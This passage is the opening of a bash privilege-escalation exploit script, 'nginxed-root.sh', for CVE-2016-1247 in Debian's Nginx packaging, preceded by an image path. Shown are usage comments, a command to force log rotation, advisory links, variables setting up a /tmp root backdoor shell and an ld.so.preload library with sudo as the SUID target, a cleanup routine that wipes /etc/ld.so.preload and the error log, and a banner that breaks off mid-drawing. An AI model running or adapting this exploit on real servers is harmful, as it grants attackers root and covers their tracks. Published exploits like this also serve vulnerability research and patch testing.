 ```bash
#
#
# Exploit usage:
# ./nginxed-root.sh path_to_nginx_error.log 
#
# To trigger logrotation for testing the exploit, you can run the following command:
#
# /usr/sbin/logrotate -vf /etc/logrotate.d/nginx
#
# See the full advisory for details at:
# https://legalhackers.com/advisories/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
#
# Video PoC:
# https://legalhackers.com/videos/Nginx-Exploit-Deb-Root-PrivEsc-CVE-2016-1247.html
#
#
# Disclaimer:
# For testing purposes only. Do no harm.
#

BACKDOORSH="/bin/bash"
BACKDOORPATH="/tmp/nginxrootsh"
PRIVESCLIB="/tmp/privesclib.so"
PRIVESCSRC="/tmp/privesclib.c"
SUIDBIN="/usr/bin/sudo"

function cleanexit {
        # Cleanup 
        echo -e "\n[+] Cleaning up..."
        rm -f $PRIVESCSRC
        rm -f $PRIVESCLIB
        rm -f $ERRORLOG
        touch $ERRORLOG
        if [ -f /etc/ld.so.preload ]; then
                echo -n > /etc/ld.so.preload
        fi
        echo -e "\n[+] Job done. Exiting with code $1 \n"
        exit $1
}

function ctrl_c() {
        echo -e "\n[+] Ctrl+C pressed"
        cleanexit 0
}

#intro 

cat <<_eascii_
 _______________________________
< Is your server (N)jinxed ? ;o >
 -------------------------------
           \ 
            \          __---__
                    _-       /--______
               __--( /     \ )XXXXXXXXXXX\v.  
             .-XXX(   O   O  )XXXXXXXXXXXXXXX- 
            /XXX(       U     )        XXXXXXX\ 
          /XXXXX(              )--_  XXXXXXXXXXX\ 
         /XXXXX/ (      O     )   XXXXXX   \XXXXX\ 
         XXXXX/   /            XXXXXX   \__ \XXXXX
         XXXXXX__/          XXXXXX         \__---->
 ---___  XXX__/          XXXXXX      \__         /
   \-  --__/   ___/\  XXXXXX            /  ___--/=
```